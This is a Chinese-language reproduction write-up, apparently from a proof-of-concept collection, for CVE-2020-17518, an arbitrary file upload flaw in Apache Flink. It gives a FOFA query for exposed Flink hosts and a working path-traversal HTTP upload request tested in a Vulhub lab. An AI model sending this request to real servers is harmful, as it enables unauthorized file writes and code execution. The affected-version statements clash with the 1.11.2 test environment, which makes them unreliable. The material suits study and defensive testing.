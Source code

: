# Apache Flink 小于1.9.1远程代码执行 CVE-2020-17518

## 漏洞描述

Apache Flink 是一个开源流处理框架，具有强大的流处理和批处理能力。

Apache Flink 1.5.1 引入了一个 REST 处理程序，可以通过恶意修改的 HTTP HEADER 将上传的文件写入本地文件系统上的任意位置。

Apache Flink的任意Jar包上传可以导致远程代码执行。

参考：

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## 漏洞影响

```
Apache Flink  <= 1.9.1(最新版本)
```

## 网络测绘

```
app="Apache-Flink" && country="CN"
```

## 环境搭建

Vulhub执行以下命令启动 Apache Flink jobmanager 1.11.2：

```
docker-compose up -d
```

Apache Flink 启动后，访问`http://your-ip:8081`查看主页。

## 漏洞复现

### 上传文件

使用以下请求将文件上传到`/tmp/awesome_poc`：

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/awesome_poc"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--
```

![image-20220223163924462](./images/202202231639569.png)

查看docker，`/tmp/awesome_poc`成功创建。

![image-20220223164054096](./images/202202231640168.png)

